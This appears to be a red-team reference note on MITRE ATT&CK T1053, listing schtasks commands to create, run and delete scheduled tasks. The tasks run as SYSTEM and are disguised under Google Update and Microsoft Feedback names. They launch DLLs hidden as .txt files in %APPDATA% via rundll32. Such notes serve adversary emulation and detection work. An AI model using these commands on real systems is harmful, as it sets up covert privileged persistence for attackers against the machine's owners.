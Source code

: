 # Scheduled Task

---
* **ID**: T1053
* **Source**: <https://attack.mitre.org/techniques/T1053/>
---

# Details

## schtasks

* Create a scheduled task, e.g. Create a scheduled task run as SYSTEM with highest privilege and no password:
```
SCHTASKS /CREATE /SC HOURLY /TN GoogleUpdateTaskMachine /TR "rundll32 %APPDATA%\qwer.txt,DllMain" /NP /RU SYSTEM /RL HIGHEST
SCHTASKS /CREATE /SC DAILY /ST 13:00 /TN \Microsoft\Windows\Feedback\Siuf\DMClientOnScenarioCleanUp /TR "rundll32 %APPDATA%\temp.txt,DllMain" /NP /RU SYSTEM /RL HIGHEST
```

* Run a scheduled task
```
schtasks /run /tn GoogleUpdateTaskMachine /I
schtasks /run /tn \Microsoft\Windows\Feedback\Siuf\DMClientOnScenarioCleanUp /I
```

* Delete a scheduled task
```
schtasks /delete /tn GoogleUpdateTaskMachine /F
schtasks /delete /tn \Microsoft\Windows\Feedback\Siuf\DMClientOnScenarioCleanUp /F
```

# References

* <https://support.microsoft.com/en-us/help/814596/how-to-use-schtasks-exe-to-schedule-tasks-in-windows-server-2003>
